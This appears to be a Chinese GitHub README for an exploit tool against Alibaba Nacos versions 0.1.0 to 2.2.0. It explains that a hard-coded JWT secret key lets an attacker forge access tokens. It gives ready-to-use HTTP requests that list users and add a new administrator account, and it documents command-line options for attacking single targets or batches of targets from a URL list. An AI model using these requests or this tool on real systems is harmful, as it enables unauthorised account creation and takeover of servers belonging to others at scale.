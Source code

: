 
### 漏洞原理

好多大佬都分享过了，这里就简单说下：

Nacos漏洞版本`/conf` 默认配置文件 `application.properties ` 中，`nacos.core.auth.default.token.secret.key` 使用了硬编码，使用该key可构造jwt进行token认证。

认证成功后获得`accessToken` ，使用`accessToken` 可对Naocs进行任意操作（这不废话么，已经登录了）

### 影响范围

0.1.0 <= Nacos <= 2.2.0

### 工具思路
既然登录后使用`accessToken`可以进行任意操作，那直接查看管理员或者干脆新增用户登录不就得了么，这里加上认证成功后的token 直接使用CVE-2021-29441的payload读取用户列表和新增系统用户，如下：

查看用户列表
```http
GET /nacos/v1/auth/users?pageNo=1&pageSize=9 HTTP/1.1
Host: xxx
accessToken: xxxxxx
```
新增管理员
```http
POST /nacos/v1/auth/users HTTP/1.1
Host: xxx
Content-Type: application/x-www-form-urlencoded
accessToken: xxx
Content-Length: 27

username=fuck&password=fuck
```

### Tools Usage

_____                 ____      ___         _ _   _____     _
|   | |___ ___ ___ ___|    \ ___|  _|___ _ _| | |_|_   _|___| |_ ___ ___
| | | | .'|  _| . |_ -|  |  | -_|  _| .'| | | |  _| | | | . | '_| -_|   |
|_|___|__,|___|___|___|____/|___|_| |__,|___|_|_|   |_| |___|_,_|___|_|_|

Alibaba Nacos Default Token身份认证绕过 author: Dghpi9
vul version: 0.1.0 <= Nacos <= 2.2.0
Usage:
 -u http://192.168.0.1:8848 -g  读取用户列表
 -u http://192.168.0.1:8848 -a  新增系统用户
 -f url.txt -g  批量读取用户列表
 -f url.txt -a  批量新增用户
Options:
  -u string
        指定单个目标
  -f string
        传入文件列表
  -g    读取用户列表
  -a    新增系统用户

